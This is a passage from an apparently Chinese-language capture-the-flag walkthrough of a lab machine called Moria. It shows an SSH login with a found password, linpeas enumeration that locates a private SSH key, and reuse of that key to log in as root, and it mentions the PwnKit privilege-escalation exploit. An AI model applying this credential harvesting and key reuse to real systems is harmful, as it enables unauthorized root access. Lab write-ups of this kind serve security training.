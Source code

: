 
10、内部信息枚举


ssh Ori@192.168.253.215
spanky


linpeas：
Possible private SSH keys were found!
/home/Ori/.ssh/id_rsa

Searching root files in home dirs (limit 30)
/home/
/home/Ori/poem.txt
/root/


cat /home/Ori/poem.txt  ---发现了一首诗

Ho! Ho! Ho! to the bottle I go
To heal my heart and drown my woe.
Rain may fall and wind may blow,
And many miles be still to go,
But under a tall tree I will lie,
And let the clouds go sailing by. 

PS: Moria will not fall!


11、ssh rsa

/home/Ori/.ssh/id_rsa   ---在.ssh目录下发现了id_rsa

cat known_hosts 
127.0.0.1 ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCuLX/CWxsOhekXJRxQqQH/Yx0SD+XgUpmlmWN1Y8cvmCYJslOh4vE+I6fmMwCdBfi4W061RmFc+vMALlQUYNz0=



ssh root@127.0.0.1 -i id_rsa
Last login: Fri Apr 28 18:01:27 2017
[root@Moria ~]# id
uid=0(root) gid=0(root) 组=0(root)

直接获得root权限！


PwnKit-Exploit-main-2021-4034  提权


















